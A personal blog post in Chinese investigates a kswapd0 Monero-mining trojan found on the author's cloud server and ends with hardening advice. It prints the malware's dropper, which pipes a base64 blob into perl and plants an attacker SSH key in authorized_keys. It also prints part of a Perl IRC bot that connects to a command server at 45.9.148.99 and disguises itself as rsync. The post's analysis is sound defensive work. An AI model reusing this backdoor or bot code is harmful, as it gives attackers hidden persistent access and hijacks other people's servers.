# kswapd0 挖矿病毒调查

## 背景



3 月 6 日收到了腾讯云的异地异常登入报告，马上又收到了检测出木马的报告



马上怀疑是服务器被植入了木马程序，但是时间比较晚了，先把服务器关机了然后睡觉

我也没有急着重装系统，有点贪心，想看看木马长什么样，也顺便学习一下怎么清理木马程序，怎么分析受损情况，毕竟我现在是一个个人的服务器还没有对外提供服务，可以随便重装系统，但是如果是一个网站的服务器那么肯定是不能随便重装的。

但是这个木马非常狡猾，我 3 月 6 日一天也没有找出来，也请了网安的同学来帮忙，外加腾讯给我的报错文件，我什么没有找到，一切看起来都非常正常，各种日志都没有一点痕迹连操作记录都没有，然后我就又把服务器开着等了一天。


## 出现异常

很快，第二天凌晨又被警告异地登入了，但是我当时还在睡觉没处理，早上起来一开服务器发现问题大了。





## 开始调查

有个程序把我的cpu直接占满了，我知道它出现了，我直接 kill 了这个程序，然后在通过查看系统的定期任务找到了它的文件，应该是只有部分了，它的很多安装步骤应该是被自己清理掉了。



很明显它有一些定时任务，而且我每一次开机都会更新一些木马的程序，非常难找，而且输出全部重定向到了空，所以没有运行日志，当然也它没有很过分的写 shell 反弹，否在我恐怕也不能直接发现这些定期运行的脚本了。

然后根据上面运行的脚本目录，我找到了它的一些文件













里面有很多脚本程序，比如启动挖矿程序，为了躲避产生日志的脚本，还有一些判断系统硬件的，还有脚本杀死别的挖矿软件……，还有删除一些文件的（所以应该丢失了不少关键文件）

当然最重要的还是要看一下挖矿程序(省略)

```shell
#!/bin/sh
nohup ./stop>>/dev/null &
sleep 5
echo "ZXZhbCB1bnBhY2sgd......" | base64 --decode | perl
cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod -R go= ~/.ssh
```

有一个用 `perl` 写的程序还有一个 `ssh` 远程登入

因为是 `base64` 压缩，所以通过解码并且将 `perl` 加入输出命令得到了源码（部分）

```perl
my $processo = 'rsync';

$servidor='45.9.148.99' unless $servidor;
my $porta='443';
my @canais=("#007");
my @adms=("polly","molly");
my @auth=("localhost");

my $linas_max=6;
my $sleep=3;

my $nick = getnick();
my $ircname = getnick();
my $realname = (`uname -a`);

my $acessoshell = 1;
my $prefixo = "! ";
my $estatisticas = 0;
my $pacotes = 1;

my $VERSAO = '0.2a';

$SIG{'INT'} = 'IGNORE';
$SIG{'HUP'} = 'IGNORE';
$SIG{'TERM'} = 'IGNORE';
$SIG{'CHLD'} = 'IGNORE';
$SIG{'PS'} = 'IGNORE';

use IO::Socket;
use Socket;
use IO::Select;
chdir("/");
$servidor="$ARGV[0]" if $ARGV[0];
$0="$processo"."\0";
my $pid=fork;
exit if $pid;
die "Problema com o fork: $!" unless defined($pid);

my %irc_servers;
my %DCC;
my $dcc_sel = new IO::Select->new();

sub getnick {
  return "x".int(rand(9000)).int(rand(9000));
}


sub getident {
  my $retornoident = &_get("http://www.minpop.com/sk12pack/idents.php");
  my $identchance = int(rand(99000));
  if ($identchance > 30) {
     return $nick;
  } else {
     return $retornoident;
  }
  return $retornoident;
}

sub getname {
  my $retornoname = &_get("http://www.minpop.com/sk12pack/names.php");
  return $retornoname;
}

sub getident2 {
        my $length=shift;
        $length = 3 if ($length < 3);

        my @chars=('a'..'z','A'..'Z','1'..'9');
        foreach (1..$length)
        {
                $randomstring.=$chars[rand @chars];
        }
        return $randomstring;
}
......

```

其中有一个很明显的 ip 地址 `45.9.148.99` 通过 `IP` 地址定位，发现是在荷兰，臭名昭著~



还有一个主文件 `kwsapd0` 但是是经过特殊加密的，暂时不会解码的手段，不过根据网上的查询多半是 `XMRig` 编译的 `Linux` 平台**门罗币**挖矿木马了。

这次的木马调查也只能到此结束了，后面深入的事情也不是我有能力去做的了，只是很讨厌这种行为，通过木马挖矿就是小偷行为，偷别人的算力，非常可耻！

## 总结

自己的服务器要小心，不要被别人拿去白打工了，密码最好复杂一点，各个用户的都要复杂一点，因为不是 `sudo`用户也有可能被入侵，密码最好定期跟换，对于端口开放要谨慎，要限制访问 `IP`。

这次的木马时间算是给了我一个教训吧，辛亏服务器内数据不多，损失也不算大，但是以后还是要多加小心。
